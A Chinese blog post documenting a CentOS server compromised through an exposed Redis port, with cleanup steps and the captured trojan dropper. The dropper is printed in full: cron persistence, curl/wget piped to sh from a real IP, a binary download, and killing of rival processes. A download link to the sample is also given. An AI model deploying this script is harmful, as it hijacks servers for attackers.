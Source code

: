 ```yaml
---
title: Redis 默认端口漏洞被利用挂马
date: 2023-01-09 00:05:01
permalink: /pages/e95b98/
author: 
  name: JunYu
  link: https://yuwei.cc
article: false
---
```

系统：CentOS
平台：阿里云
## 说明
通过 [top](https://www.cnblogs.com/wbxk/p/10776103.htm") 查看，CPU 资源消耗居然不大，就是 wa 内存占用飙升；找到两个可疑进程：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2837990/1627368658190-a50b79d7-3e96-4cdf-bfcc-91ec4fd2d98a.png#clientId=u638783b3-01e4-4&from=paste&id=u76b9a5f2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=391&originWidth=1191&originalType=url&ratio=1&size=67500&status=done&style=none&taskId=u669ae4cd-186a-4574-a25d-b1aca191e49)

```bash
2354 root      20   0  183000  48876      0 S   2.3   2.6   0:44.26 /usr/bin/omasfa8
2467 root      20   0 2432780   1.4g    236 S   0.7  76.4   0:47.75 /tmp/Donald
```
## 操作
1.使用 `kill -9 PID` 强制杀掉进程；
2.使用  `rm -rf /usr/bin/omasfa8||/usr/libexec/omasfa8||/usr/local/bin/omasfa8||/tmp/Donald` 删除可能遗留存的路径；
3.`crontab -r` 删除定时任务或者 `crontab -e` 编辑定时任务。
![image.png](https://f.pz.al/pzal/2023/01/13/e3270379933e3.png)
## 木马
```bash
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

mkdir -p /var/spool/cron/crontabs
echo "" &gt; /var/spool/cron/root
echo "*/15 * * * * (/usr/bin/omasfa8||/usr/libexec/omasfa8||/usr/local/bin/omasfa8||/tmp/omasfa8||curl -fsSL -m180 http://140.143.145.178:7478/i.sh||wget -q -T180 -O- http://140.143.145.178:7478/i.sh) | sh" &gt;&gt; /var/spool/cron/root
cp -f /var/spool/cron/root /var/spool/cron/crontabs/root

cd /tmp
touch /usr/local/bin/writeable &amp;&amp; cd /usr/local/bin/
touch /usr/libexec/writeable &amp;&amp; cd /usr/libexec/
touch /usr/bin/writeable &amp;&amp; cd /usr/bin/
rm -rf /usr/local/bin/writeable /usr/libexec/writeable /usr/bin/writeable

export PATH=$PATH:$(pwd)
ps auxf | grep -v grep | grep omasfa8 || rm -rf omasfa8
if [ ! -f "omasfa8" ]; then
    curl -fsSL -m1800 http://140.143.145.178:7478/static/4008/ddgs.$(uname -m) -o omasfa8||wget -q -T1800 http://140.143.145.178:7478/static/4008/ddgs.$(uname -m) -O omasfa8
fi
chmod +x omasfa8
/usr/bin/omasfa8||/usr/libexec/omasfa8||/usr/local/bin/omasfa8||/tmp/omasfa8

ps auxf | grep -v grep | grep omasbcb | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep omasbcc | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep omasbcd | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep omasbce | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep omasfa0 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep omasfa1 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep omasfa2 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep omasfa3 | awk '{print $2}' | xargs kill -9
ps auxf | grep -v grep | grep omasfa4 | awk '{print $2}' | xargs kill -9

echo "*/15 * * * * (/usr/bin/omasfa8||/usr/libexec/omasfa8||/usr/local/bin/omasfa8||/tmp/omasfa8||curl -m180 -fsSL http://140.143.145.178:7478/i.sh||wget -q -T180 -O- http://140.143.145.178:7478/i.sh) | sh" | crontab -
```
大致思路是：按机器硬件名下载相应的程序，写入 **omasfa8** 然后运行并定时检查。
将下载的运行程序拷贝到 Windows 下用火绒扫描提示木马病毒：Trojan/linux.Lady.a；
[https://yun.yuwei.cc/Trojan/ddgs.zip](https://yun.yuwei.cc/Trojan/ddgs.zip)



